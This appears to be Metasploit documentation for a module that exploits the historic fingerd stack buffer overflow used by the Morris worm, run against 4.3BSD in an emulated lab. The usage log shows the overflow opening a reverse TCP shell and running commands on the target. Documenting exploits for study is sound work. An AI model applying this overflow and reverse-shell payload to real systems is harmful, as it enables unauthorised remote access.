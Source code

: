## Introduction

This module exploits a stack buffer overflow in `fingerd` on 4.3BSD.

This vulnerability was exploited by the Morris worm in 1988-11-02.
Cliff Stoll reports on the worm in the epilogue of *The Cuckoo's Egg*.

## Setup

A Docker environment for 4.3BSD on VAX is available at
<https://github.com/wvu/ye-olde-bsd>.

For manual setup, please follow the Computer History Wiki's
[guide](http://gunkies.org/wiki/Installing_4.3_BSD_on_SIMH) or Allen
Garvin's [guide](http://plover.net/~agarvin/4.3bsd-on-simh.html) if
you're using [Quasijarus](http://gunkies.org/wiki/4.3_BSD_Quasijarus).

## Targets

```
Id  Name
--  ----
0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85
```

## Options

**RPORT**

Set this to the target port. The default is 79 for `fingerd`, but the
port may be forwarded when NAT (SLiRP) is used in SIMH.

**PAYLOAD**

Set this to a BSD VAX payload. Currently, only
`bsd/vax/shell_reverse_tcp` is supported.

## Usage

```
msf5 exploit(bsd/finger/morris_fingerd_bof) > options

Module options (exploit/bsd/finger/morris_fingerd_bof):

   Name    Current Setting  Required  Description
   ----    ---------------  --------  -----------
   RHOSTS  127.0.0.1        yes       The target address range or CIDR identifier
   RPORT   79               yes       The target port (TCP)


Payload options (bsd/vax/shell_reverse_tcp):

   Name   Current Setting  Required  Description
   ----   ---------------  --------  -----------
   LHOST  192.168.1.2      yes       The listen address (an interface may be specified)
   LPORT  4444             yes       The listen port


Exploit target:

   Id  Name
   --  ----
   0   @(#)fingerd.c   5.1 (Berkeley) 6/6/85


msf5 exploit(bsd/finger/morris_fingerd_bof) > run

[*] Started reverse TCP handler on 192.168.1.2:4444
[*] 127.0.0.1:79 - Connecting to fingerd
[*] 127.0.0.1:79 - Sending 533-byte buffer
[*] Command shell session 1 opened (192.168.1.2:4444 -> 192.168.1.2:51992) at 2018-09-25 10:14:15 -0500

whoami
nobody
cat /etc/motd
4.3 BSD UNIX #1: Fri Jun  6 19:55:29 PDT 1986

Would you like to play a game?
```
